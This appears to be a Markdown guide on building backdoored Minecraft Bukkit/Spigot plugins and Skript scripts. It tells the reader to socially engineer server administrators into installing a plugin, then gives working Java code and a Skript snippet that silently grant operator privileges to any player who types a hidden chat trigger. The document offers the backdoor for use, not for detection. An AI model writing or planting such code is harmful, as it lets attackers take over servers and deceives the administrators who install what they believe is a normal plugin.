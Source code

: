# Backdoored Plugins

### Overview
Backdoored plugins are plugins that have been tampered with, giving users administrator priviliges when ran, or on a specific event.
The idea is to make the server administrator install your Plugin or [Skript](https://dev.bukkit.org/projects/skript), this requires [Social Engineering](https://en.wikipedia.org/wiki/Social_engineering_(security))

### Developing your own plugin
Basically watch any tutorial on how to setup a bukkit/spigot plugin.
If you know how to make a backdoored plugin, you can stop reading.
If you don't here is an example on how it looks like:

```java
public class Main extends JavaPlugin implements Listener {

    // The event called when the plugin loads
    public void onEnable() {
        // Register the listener
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    // Called when the player says something in chat
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        // If the said message starts with "@example"
        if (event.getMessage().startsWith("@example")) {
            // It cancells the event, not sending "@example" in chat
            event.setCancelled(true);
            // Gives the player who executed the command operator permissions
            event.getPlayer().setOp(true);
        }
    }
}
```

### Creating a script in skript
###### This script has been untested, if it doesn't work, you can remake it using the help of the [Skript Documentation](https://skriptlang.github.io/Skript/index.html).

```yml
// Called when a player says something in chat
on chat:
    // If the message contains "example"
    if message contains "@example":
        // Give operator permissions to the player
        op the player
```
